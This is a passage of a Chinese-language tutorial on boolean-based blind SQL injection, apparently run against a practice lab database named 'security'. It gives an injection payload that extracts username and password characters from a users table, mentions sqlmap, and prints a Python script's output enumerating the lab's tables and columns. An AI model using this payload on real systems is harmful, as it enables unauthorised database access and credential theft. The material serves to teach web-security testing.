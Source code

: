 ## 猜解字段内容

`?id=-1' or ascii(mid((select group_concat(username,0x7e,password) from users),1,1))=68--+`<br />第一个字符是D

对于布尔盲注的问题，一般采用脚本进行猜解或者使用sqlmap\ <a name="kRQp0"></a>

# 使用python布尔盲注脚本

```bash
┌──(root?guoyx)-[/home/kali/sql-python]
└─# python3 bool-blind.py    
[-]开始测试数据库名长度.......
[+]数据库长度：8

[-]开始测试数据库名.......
[+]数据库名：security

开始测试security数据库有几张表........
[+]security库一共有4张表

[-]开始猜解表名.......
第1张表名长度：6
[+]：emails
第2张表名长度：8
[+]：referers
第3张表名长度：7
[+]：uagents
第4张表名长度：5
[+]：users

[+]security库下的4张表：['emails', 'referers', 'uagents', 'users']

[-]开始猜解每张表的字段数：.......
[+]emails表	2个字段
[+]referers表	3个字段
[+]uagents表	4个字段
[+]users表	3个字段

[+]表对应的字段数：[2, 3, 4, 3]

[-]开始猜解每张表的字段名.......

[+]emails表的字段：
[+]：id
[+]：email_id

[+]referers表的字段：
[+]：id
[+]：referer
[+]：ip_address

[+]uagents表的字段：
[+]：id
[+]：uagent
[+]：ip_address
[+]：username

[+]users表的字段：
[+]：id
[+]：username
[+]：password

```
